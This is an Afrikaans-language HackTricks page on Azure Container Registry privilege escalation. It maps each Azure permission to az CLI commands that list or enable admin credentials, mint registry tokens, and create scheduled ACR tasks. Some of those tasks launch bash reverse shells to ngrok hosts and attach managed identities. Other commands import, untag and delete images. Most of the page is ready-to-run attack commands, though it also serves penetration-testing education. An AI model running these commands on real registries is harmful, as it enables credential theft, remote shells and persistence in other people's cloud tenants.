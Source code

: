 # Az - Azure Container Registry Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Container Registry

Vir meer inligting, kyk:

{{#ref}}
../az-services/az-container-registry.md
{{#endref}}

### `Microsoft.ContainerRegistry/registries/listCredentials/action`

Hierdie toestemming laat die gebruiker toe om die admin geloofsbriewe van die ACR te lys. Dit is nuttig om **volledige toegang** tot die registrasie te verkry.
```bash
az rest --method POST \
--url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerRegistry/registries/<registry-name>/listCredentials?api-version=2023-11-01-preview"
```
As die admin geloofsbriewe nie geaktiveer is nie, sal jy ook die toestemming `Microsoft.ContainerRegistry/registries/write` nodig hê om hulle te aktiveer met:
```bash
az rest --method PATCH --uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerRegistry/registries/<registry-name>?api-version=2023-11-01-preview" --body '{"properties": {"adminUserEnabled": true}}'
```
### `Microsoft.ContainerRegistry/registries/tokens/write`, `Microsoft.ContainerRegistry/registries/generateCredentials/action`

Hierdie toestemmings laat die gebruiker toe om **'n nuwe token te skep** met wagwoorde om toegang tot die registrasie te verkry.

Om die `az cli` te gebruik om dit te genereer soos in die volgende voorbeeld, sal jy ook die toestemmings `Microsoft.ContainerRegistry/registries/read`, `Microsoft.ContainerRegistry/registries/scopeMaps/read`, `Microsoft.ContainerRegistry/registries/tokens/operationStatuses/read`, `Microsoft.ContainerRegistry/registries/tokens/read` benodig.
```bash
az acr token create \
--registry <registry-name> \
--name <token-name> \
--scope-map _repositories_admin
```
### `Microsoft.ContainerRegistry/registries/listBuildSourceUploadUrl/action`, `Microsoft.ContainerRegistry/registries/scheduleRun/action`, `Microsoft.ContainerRegistry/registries/runs/listLogSasUrl/action`

Hierdie toestemmings laat die gebruiker toe om **'n beeld te bou en uit te voer** in die registrasie. Dit kan gebruik word om **kode** in die houer uit te voer.

>[!WARNING]
> egter, die beeld sal in 'n **sandboxed omgewing** uitgevoer word en **sonder toegang tot die metadata diens**. Dit beteken dat die houer nie toegang tot die **instansie metadata** sal hê nie, so dit is nie regtig nuttig om voorregte te verhoog nie.
```bash
# Build
echo 'FROM ubuntu:latest\nRUN bash -c "bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/17585 0>&1"\nCMD ["/bin/bash", "-c", "bash -i >& /dev/tcp//2.tcp.eu.ngrok.io/17585 0>&1"]' > Dockerfile
az acr run --registry 12345TestingRegistry --cmd '$Registry/rev/shell:v1:v1' /dev/null
```
### `Microsoft.ContainerRegistry/registries/tasks/write`

Dit is die hooftoestemming wat toelaat om 'n taak in die registrasie te skep en op te dateer. Dit kan gebruik word om **kode binne 'n houer met 'n bestuurde identiteit daaraan geheg** in die houer uit te voer.

Hierdie is die voorbeeld van hoe om 'n reverse shell in 'n houer met die **stelsel bestuurde** identiteit daaraan geheg uit te voer:
```bash
az acr task create \
--registry <registry-name> \
--name reverse-shell-task \
--image rev/shell:v1 \
--file ./Dockerfile \
--context https://github.com/carlospolop/Docker-rev.git \
--assign-identity \
--commit-trigger-enabled false \
--schedule "*/1 * * * *"
```
'n Ander manier om 'n RCE uit 'n taak te verkry sonder om 'n eksterne repository te gebruik, is om die `az acr task create` opdrag met die `--cmd` vlag te gebruik. Dit sal jou toelaat om 'n opdrag in die houer uit te voer. Byvoorbeeld, jy kan 'n omgekeerde skulp met die volgende opdrag uitvoer:
```bash
az acr task create \
--registry <registry-name> \
--name reverse-shell-task-cmd \
--image rev/shell2:v1 \
--cmd 'bash -c "bash -i >& /dev/tcp/4.tcp.eu.ngrok.io/15508 0>&1"' \
--schedule "*/1 * * * *" \
--context /dev/null \
--commit-trigger-enabled false \
--assign-identity
```
> [!TIP]
> Let daarop dat jy nie enige spesiale toestemming nodig het om die stelsels bestuurde identiteit toe te ken nie, alhoewel dit voorheen in die registrasie geaktiveer moes wees en 'n paar toestemmings toegeken moes wees om nuttig te wees.

Om 'n **gebruikers bestuurde identiteit ook** toe te ken, sal jy die toestemming `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action` nodig hê om te doen:
```bash
az acr task create \
--registry <registry-name> \
--name reverse-shell-task \
--image rev/shell:v1 \
--file ./Dockerfile \
--context https://github.com/carlospolop/Docker-rev.git \
--assign-identity \[system\] "/subscriptions/<subscription-id>>/resourcegroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<mi-name>" \
--commit-trigger-enabled false \
--schedule "*/1 * * * *"
```
Om die **opdatering** van die repo van 'n bestaande taak te doen, kan jy:
```bash
az acr task update \
--registry <registry-name> \
--name reverse-shell-task \
--context https://github.com/your-user/your-repo.git
```
### `Microsoft.ContainerRegistry/registries/importImage/action`

Met hierdie toestemming is dit moontlik om **'n beeld na die azure registrasie te importeer**, selfs sonder om die beeld plaaslik te hê. Let egter daarop dat jy **nie 'n beeld met 'n etiket kan invoer** wat reeds in die registrasie bestaan nie.
```bash
# Push with az cli
az acr import \
--name <registry-name> \
--source mcr.microsoft.com/acr/connected-registry:0.8.0 # Example of a repo to import
```
Om 'n spesifieke beeldtag te **ontmerk of te verwyder** van die registrasie, kan jy die volgende opdrag gebruik. Let egter daarop dat jy 'n gebruiker of token met **voldoende regte** nodig sal hê om dit te doen:
```bash
az acr repository untag \
--name <registry-name> \
--image <image-name>:<tag>

az acr repository delete \
--name <registry-name> \
--image <image-name>:<tag>
```
{{#include ../../../banners/hacktricks-training.md}}
